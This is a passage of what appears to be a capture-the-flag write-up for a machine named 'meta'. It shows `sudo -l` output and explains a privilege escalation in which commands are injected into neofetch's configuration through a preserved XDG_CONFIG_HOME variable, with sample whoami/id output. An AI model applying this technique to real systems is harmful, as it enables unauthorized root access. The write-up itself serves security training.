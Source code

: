 Successfully got user :)

## Root
---
Refering back from earlier, neofetch's config is being backed up- a likely sign that this needs to be played with. It is not to be expected in a real environment but it seems like its going to be the key for this box.

Run `sudo -l`
```
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```
There is a GTFObin for sudo neofetch however, we can only run it with no arguments, ruining the easy root. So here's what I did instead.

> Note that XDG_CONFIG_HOME is being kept.
{: .prompt-tip }

This means we can pass the config file into the sudo environment. If we dont set the environment variable, this is what our output is when inserting whoami; id into the config file.

`neofetch`
```
thomas
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
       _,met$$$$$gg.          thomas@meta 
    ,g$$$$$$$$$$$$$$$P.       ----------- 
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64 
 ,$$P'              `$$$.     Host: VMware Virtual Platform None 
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64 
`d$$'     ,$P"'   .    $$$    Uptime: 3 hours, 20 mins 
 $$P      d$'     ,    $$P    Packages: 495 (dpkg) 
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3 
 $$;      Y$b._   _,d$P'      Terminal: /dev/pts/2 
 Y$$.    `.`"Y$$$$P"'         CPU: AMD EPYC 7401P 24- (2) @ 2.000GHz 
 `$$b      "-.__              GPU: VMware SVGA II Adapter 
  `Y$$                        Memory: 158MiB / 1994MiB         `Y$$.
     `$$b.                                            
       `Y$$b.
          `"Y$b._
              `"""


```
and `sudo neofetch`

```
       _,met$$$$$gg.          root@meta 
    ,g$$$$$$$$$$$$$$$P.       --------- 
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64 
 ,$$P'              `$$$.     Host: VMware Virtual Platform None 
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64 
`d$$'     ,$P"'   .    $$$    Uptime: 3 hours, 20 mins 
 $$P      d$'     ,    $$P    Packages: 495 (dpkg) 
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3 
 $$;      Y$b._   _,d$P'      CPU: AMD EPYC 7401P 24- (2) @ 2.000GHz 
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter 
 `$$b      "-.__              Memory: 159MiB / 1994MiB 
  `Y$$                                                     
   `Y$$.                                              
     `$$b.
```